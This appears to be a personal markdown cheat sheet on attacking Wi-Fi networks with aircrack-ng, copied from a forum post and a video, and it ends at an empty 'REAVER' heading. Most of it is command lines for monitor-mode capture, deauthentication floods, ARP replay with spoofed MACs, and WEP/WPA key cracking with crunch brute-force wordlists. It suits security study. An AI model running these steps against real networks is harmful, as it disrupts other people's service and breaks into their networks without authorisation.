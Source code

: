 # Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`   
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
7. `airodump-ng wlan0`  
8. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write SCAN_test wlan0`  
*NEW TERMINAL*  this authenticates all clients on network - 0 means just goes on forever.  let it run for a while  
9. `aireplay-ng -0 0 -a 12:34:45:45:56:88 wlan0`  
10. ctr ^ C to stop  
11. one first terminal check to see if wpa handshake is captured.  if so stop capture.  
*FRESH TERMINAL*  
12. `crunch 10 10 -t @@@@@@@@@@ | aircrack-ng -w - SCAN_test-01.cap -e <essid>`  
##### try using a list cd crunch-3.6 find charset.lst 
13. `crunch 10 10 -t @@@@@@@@@@ -f charset.lst mixalpha-numeric-space`  

# REAVER 

